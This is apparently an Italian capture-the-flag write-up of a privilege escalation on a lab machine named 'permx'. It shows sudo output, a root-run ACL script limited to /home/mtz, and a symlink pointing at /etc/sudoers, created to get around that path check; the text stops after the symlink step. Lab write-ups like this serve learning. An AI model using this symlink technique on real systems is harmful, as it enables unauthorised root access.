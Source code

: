 # PRIVESC

Vediamo se possiamo eseguire qualcosa come root
```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Vediamo di cosa si tratta 
```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Questo script Bash viene utilizzato per assegnare permessi a un utente specifico su un file utilizzando `setfacl`, che è uno strumento per gestire le liste di controllo degli accessi (ACL) su sistemi Unix/Linux.


Quello che faremo e la creazione di un collegamento simbolico (symlink)

```bash
mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudo
```

- Questo comando crea un collegamento simbolico chiamato `sudo` nella directory `/home/mtz/` che punta al file `/etc/sudoers`.
- Un collegamento simbolico è un file speciale che funge da riferimento o puntatore a un altro file o directory.
